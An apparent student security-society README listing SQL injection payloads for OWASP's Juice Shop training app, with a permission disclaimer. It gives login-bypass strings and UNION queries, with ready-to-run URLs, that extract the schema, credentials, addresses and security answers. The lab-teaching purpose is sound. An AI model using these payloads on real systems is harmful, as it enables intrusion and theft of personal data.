 # Disclaimer

All scripts developed for educational purposes during sessions with Sheffield Ethical Student Hackers Society, and executed on OWASP's dedicated Juice Shop training platform. Do not execute these scripts unless you have explicit permission. SESH Code of Conduct can be found [here](https://shefesh.com/downloads/SESH%20Code%20of%20Conduct.pdf).

# Logging In

All following statements to be pasted into the 'username' field in the login form, with any arbitrary password.

**Basic SQL Injection for logging in as the first user in the database**

`' OR 1=1;--`

**Log in as a user with an email similar to 'jim'**

`' OR 1=1 AND email LIKE('%jim%');--`

**Log in as a user that does not exist in the database**

`' UNION SELECT * FROM (SELECT 200 as 'id', 'chad' as 'username', 'chadd@juice-sh.op' as 'email', 'chadd' as 'password', 'admin' as 'role', '' as 'deluxeToken' , '1.3.3.7' as 'lastLoginIp' , 'assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--`

# Data Exfiltration

These scripts executed by a call to exposed `/rest/products/search` API - SQL statements illustrated for clarity, but scripts best executed by visiting the URL directly.

## Stealing the Schema

SQL Statement:

`qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20sql,%20%272%27,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20sqlite_master--

## Stealing emails and passwords

SQL Statement:

`qwert')) UNION SELECT email, password, '3', '4', '5', '6', '7', '8', '9' FROM Users--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20email,%20password,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users--

## Stealing names, addresses, and mobile numbers

SQL Statement:

`qwert')) UNION SELECT fullName, streetAddress, city, country, mobileNum, '6', '7', '8', '9' FROM Addresses--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20fullName,%20streetAddress,%20%27city%27,%20%27country%27,%20%27mobileNum%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Addresses--

## Stealing captcha questions and answers

SQL Statement:

`qwert')) UNION SELECT captcha, answer, '3', '4', '5', '6', '7', '8', '9' FROM Captchas--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20captcha,%20answer,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Captchas--

## Stealing security questions and answers

SQL Statement:

`qwert')) UNION SELECT q.question, a.answer, a.UserID, '4', '5', '6', '7', '8', '9' FROM SecurityQuestions q INNER JOIN SecurityAnswers a ON q.id = a.id--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20q.question,%20a.answer,%20a.UserID,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20SecurityQuestions%20q%20INNER%20JOIN%20SecurityAnswers%20a%20ON%20q.id%20=%20a.id--